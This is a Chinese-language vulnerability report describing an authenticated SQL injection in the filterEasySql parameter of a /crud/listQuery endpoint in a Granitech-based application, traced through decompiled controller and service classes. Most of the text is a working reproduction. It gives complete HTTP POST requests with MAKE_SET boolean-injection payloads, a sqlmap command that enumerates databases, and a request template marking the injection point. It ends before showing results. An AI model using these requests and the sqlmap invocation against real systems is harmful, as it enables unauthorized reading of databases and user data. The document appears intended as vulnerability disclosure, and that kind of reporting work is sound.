








漏洞点：

前端代码中可以看到crud/listQuery接口的filterEasySql参数可自定义sql查询



将后端jar包反编译，首先查看classes/cn/granitech/web/controller/CrudController.class



跟进classes/cn/granitech/business/service/CrudService.class（queryListStatistics），这里对sql语句未作过滤



初步判断该方法仅在/crud/listQuery中使用，故仅存在此处一个注入，需进一步确认



复现过程（利用MAKE_SET验证）:

需要先登录，替换COOKIE，也可抓包

```yaml
POST /crud/listQuery HTTP/1.1
Host: 192.168.8.121:8686
LoginToken: Bearer null
Origin: http://192.168.8.121:8686
Cookie: Hm_lvt_2358d52bb43b2c7c42cb5a060c736de6=1742892795; JSESSIONID=D93D9EFBD95E57C507B0CB5AEDBC8CE6
Accept: application/json, text/plain, */*
Content-Type: application/json
ruId: 0000021-00000000000000000000000000000001
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Referer: http://192.168.8.121:8686/web/user-list
Content-Length: 387

{"mainEntity":"User","filterEasySql":"MAKE_SET(21=22,3744)"}
```



```yaml
POST /crud/listQuery HTTP/1.1
Host: 192.168.8.121:8686
LoginToken: Bearer null
Origin: http://192.168.8.121:8686
Cookie: Hm_lvt_2358d52bb43b2c7c42cb5a060c736de6=1742892795; JSESSIONID=D93D9EFBD95E57C507B0CB5AEDBC8CE6
Accept: application/json, text/plain, */*
Content-Type: application/json
ruId: 0000021-00000000000000000000000000000001
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Referer: http://192.168.8.121:8686/web/user-list
Content-Length: 387

{"mainEntity":"User","filterEasySql":"MAKE_SET(21=21,3744)"}
```



sqlmap：

版本1.8.5



sqlmap执行命令：

sqlmap -r 'ml.txt' --level=3 --dbs

payload：

```yaml
POST /crud/listQuery HTTP/1.1
Host: 192.168.8.121:8686
LoginToken: Bearer null
Origin: http://192.168.8.121:8686
Cookie: Hm_lvt_2358d52bb43b2c7c42cb5a060c736de6=1742892795; JSESSIONID=D93D9EFBD95E57C507B0CB5AEDBC8CE6
Accept: application/json, text/plain, */*
Content-Type: application/json
ruId: 0000021-00000000000000000000000000000001
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Referer: http://192.168.8.121:8686/web/user-list
Content-Length: 387

{"mainEntity":"User","filterEasySql":"*"}

```

数据库名：


